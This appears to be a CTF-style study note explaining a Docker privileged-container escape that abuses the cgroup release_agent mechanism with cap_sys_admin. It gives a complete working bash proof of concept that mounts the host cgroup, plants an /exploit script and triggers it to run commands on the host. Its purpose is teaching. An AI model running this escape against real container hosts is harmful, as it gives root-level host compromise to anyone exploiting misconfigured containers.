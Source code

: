 
If we have a privileged container, and we run `capsh --print` to see what capabilities we can have on the running container, we can get something like this: `Current: = cap_chown, cap_sys_module, cap_sys_chroot, cap_sys_admin, cap_setgid,cap_setuid`, which means we can use the mount syscall (since we have cap_sys_admin) to mount the host's control groups into the container.

The steps are shown below, these steps are PoC steps taken from TryHackMe container vulnerabilities room:

```bash
# First we mount the cgroup of the host system:
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
# Then we tell the kernel to execute something once the "cgroup" finishes
echo 1 > /tmp/cgrp/x/notify_on_release
# Now we find container's files path on the host system
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
# Then we echo the host_path + /anything
echo "$host_path/exploit" > /tmp/cgrp/release_agent
# Now we create a file called "anything" which in this example is going to be "exploit"
# Make it a bash command, note that I added this file on /exploit but from host point of view it will be "$host_path/exploit"
echo '#!/bin/sh' > /exploit
# We added a command to the /exploit file that will cat a flag and echo it to the a file called flag.txt
echo "cat /home/cmnatic/flag.txt > $host_path/flag.txt" >> /exploit
#make the exploit executable
chmod a+x /exploit
# This step should be done because the release_agent will execute the commands inside once it releases the cgroup, so we need to make a new process and since it is a quick process it will end soon and release_agent will be triggered to execute our code
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```

The following figure illustrates how the notify_on_release is going to notify the release_agent of the root cgroup "The one we are mounting":

![](../../Attachments/Pasted%20image%2020240427011318.png)

Big Thanks for Edu for helping me to understand this.

Full PoC could be found at: `https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/#:~:text=The%20SYS_ADMIN%20capability%20allows%20a,security%20risks%20of%20doing%20so.`